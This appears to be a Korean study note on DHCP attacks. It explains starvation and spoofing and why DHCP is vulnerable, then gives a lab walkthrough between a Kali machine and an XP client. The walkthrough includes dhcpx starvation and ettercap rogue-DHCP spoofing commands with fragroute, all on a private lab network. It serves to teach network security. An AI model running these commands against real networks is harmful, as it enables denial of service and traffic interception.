

## DHCP Attack

- DHCP Attack
  - 공격자가 DHCP 클라이언트 또는 서버로 위장하여 변조된 DHCP 메시지를 이용하여 수행하는 공격
  - 정상 DHCP서버를 마비(Dos) 시키거나 클라이언트에게 변조된 네트워크 정보를 전달하여 데이터의 전달 흐름을 공격자로 유도(Sniffing) 함

- DHCP 취약점
  - UDP를 이용 함 → 비 신뢰성, 비 연결성 - DHCP 자체의 인증 메커니즘이 없음  누구나 원할 때 클라이언트, 서버 역할을 할 수 있음 → 진위성을 확인할 수 없음  Client → 요청으로 전달한 XID, port의 일치 여부만 확인  Server → MAC주소로 Client 구분만 함

- DHCP Attack 분류
  - DHCP Starvation → DHCP Server의 Pool을 모두 소모시키는 공격 → Dos Attack
  기존의 DHCP 서버의 기능을 사용하지 못하게 하는것 : 가용성 공격
  - DHCP Spoofing → DHCP Client에게 조작된 네트워크 정보를 전달하는 공격 DHCP 서버를 사칭 : 무결성 공격

- 환경 구성

  - DHCP 서버 구성

    

    

    

    

    

  - DHCP 클라이언트  테스트

    ```
    C:\Documents and Settings\ktest>ipconfig /all
    ```

    

    > 주소 임대 해제

    ```
    C:\Documents and Settings\ktest>ipconfig /release
    ```

    

    > 주소 재 임대

    ```
    C:\Documents and Settings\ktest>ipconfig /renew
    ```

    

## DHCP startvation

- 구성도

-1664881561157-16.png)

- 설정

  - kali

    ```
    ┌──(root㉿kali)-[~]
    └─# dhcpx 
    ```

    

    

    ```
    kali 2016] 
    └─# dhcpx -i eth0 -D 172.16.0.105
    ```

    

  - xp

    > 주소 임대 실패

    ```
    C:\Documents and Settings\ktest>ipconfig /renew
    ```

    

    

    

- DHCP Spoofing

  - ettercap 을 이용한 dhcp spoofing

    ```
    kali 2016] 
    └─# ettercap -i eth0 -T -M dhcp:172.16.0.80-90/255.255.255.0/203.248.252.2   -> 80~90번대로 받도록 한다
    ```

    

    ```
    xp]
    C:\Documents and Settings\ktest>release
    C:\Documents and Settings\ktest>renew
    ```

    

    ```
    C:\Documents and Settings\ktest>ipconfig /all
    ```

    

    ```
    kali 2016]
    # fragroute -B1
    ```

    

    ```
    xp]
    ping 8.8.8.8
    ```

    


<br>

[맨 위로 이동하기](#){: .btn .btn--primary }{: .align-right}